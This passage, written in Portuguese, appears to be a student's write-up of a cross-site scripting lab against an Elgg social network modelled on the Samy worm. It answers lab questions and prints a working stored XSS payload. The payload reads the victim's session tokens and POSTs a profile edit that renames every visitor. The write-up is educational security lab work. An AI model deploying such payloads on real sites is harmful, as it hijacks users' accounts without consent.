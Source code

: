 É interessante observar que logo após salvar a alteração no perfil, realizando assim um POST no servidor, a funcionalidade de adicionar à lista de amigos ocorre com o próprio Samy adicionando a si mesmo:

![Laborato%CC%81rio%201%20-%20Cross-Site%20Scripting%20Attack%20aa1dfbf4fb3b4029879d2d6a817fd0c5/Sem_ttulo.png](Laborato%CC%81rio%201%20-%20Cross-Site%20Scripting%20Attack%20aa1dfbf4fb3b4029879d2d6a817fd0c5/Sem_ttulo.png)

Quando fazemos o login em outra conta e acessamos o perfil de Samy o mesmo comportamento se repete:

![Laborato%CC%81rio%201%20-%20Cross-Site%20Scripting%20Attack%20aa1dfbf4fb3b4029879d2d6a817fd0c5/Sem_ttulo%201.png](Laborato%CC%81rio%201%20-%20Cross-Site%20Scripting%20Attack%20aa1dfbf4fb3b4029879d2d6a817fd0c5/Sem_ttulo%201.png)

### Pergunta 1 - Explique o propósito das linhas 1 e 2?

A linha 1 e 2 são as responsáveis por pegar os tokens do usuário para construir a URL, que irá gerar a requisição HTTP GET para adicionar Samy.

### Pergunta 2 - Se somente houvesse o Editor Mode em About Me você ainda conseguiria realizar o ataque?

Caso estivesse habilitado somente a opção Editor Mode o código iria ser exibido na descrição do perfil como um texto comum. No entanto, ainda seria possível realizar o ataque, mas não a partir do campo About Me, seria necessário utilizar outro campo.

### Tarefa 5 - Modificar o perfil da vítima

Para realizar esta tarefa primeiro inspecionamos como é realizada uma edição no perfil e notamos que ao realizar o POST, nos parâmetros do pacote HTTP conterá o conteúdo a ser atualizado com o nome das suas respectivas tags como é mostrado abaixo:

![Laborato%CC%81rio%201%20-%20Cross-Site%20Scripting%20Attack%20aa1dfbf4fb3b4029879d2d6a817fd0c5/print9.png](Laborato%CC%81rio%201%20-%20Cross-Site%20Scripting%20Attack%20aa1dfbf4fb3b4029879d2d6a817fd0c5/print9.png)

Quando adicionamos o código abaixo no campo *About me* no perfil Samy todos os usuário que entrarem no perfil terão seus nome alterados para "FUI ATACADO", pois este é o parâmetro que estamos enviando na tag name.

```jsx
<script type="text/javascript">
window.onload = function(){
//JavaScript code to access user name, user guid, Time Stamp __elgg_ts
//and Security Token __elgg_token
	var userName=elgg.session.user.name;
	var guid="&guid="+elgg.session.user.guid;
	var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
	var token="&__elgg_token="+elgg.security.token.__elgg_token;
	var name="&name=FUI ATACADO";

	//Construct the content of your url.
	var content= token + ts + name + guid;
	var sendurl= "http://www.xsslabelgg.com/action/profile/edit";
	var samyGuid=47;

	if(elgg.session.user.guid!=samyGuid) //1
	{
	//Create and send Ajax request to modify profile
	var Ajax=null;
	Ajax=new XMLHttpRequest();
	Ajax.open("POST",sendurl,true);
	Ajax.setRequestHeader("Host","www.xsslabelgg.com");
	Ajax.setRequestHeader("Content-Type",
	"application/x-www-form-urlencoded");
	Ajax.send(content);
}
}
</script>
```

